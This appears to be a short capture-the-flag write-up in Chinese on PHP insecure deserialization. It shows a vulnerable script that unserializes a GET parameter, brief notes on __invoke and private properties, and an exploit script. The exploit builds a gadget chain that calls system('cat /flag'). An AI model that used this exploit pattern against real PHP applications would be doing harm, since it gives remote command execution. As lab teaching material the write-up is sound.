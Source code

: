 ```php
    }
}

class B {
    private $b;

    function __invoke($c) {
        $s = $this->b;
        $s($c);
    }
}


 if(isset($_GET['data']))
 {
     $a = unserialize($_GET['data']);
 }
 else {
     highlight_file(__FILE__);
 }
```

思路：

> 1.私有变量用 __construct()，在创建时赋值，或者创建公有函数赋值
>
> 2.__invoke() 在对象被当作函数使用时调用
>

exp

```php
<?php

class A {
    // 注意 private 属性的序列化哦
    private $evil = "cat /flag";

    // 如何赋值呢
    private $a;

    public function __construct() {
        $this->a = new B();


    }
}

class B {
    private $b = "system";

}

$a = new A();
echo urlencode(serialize($a));
```
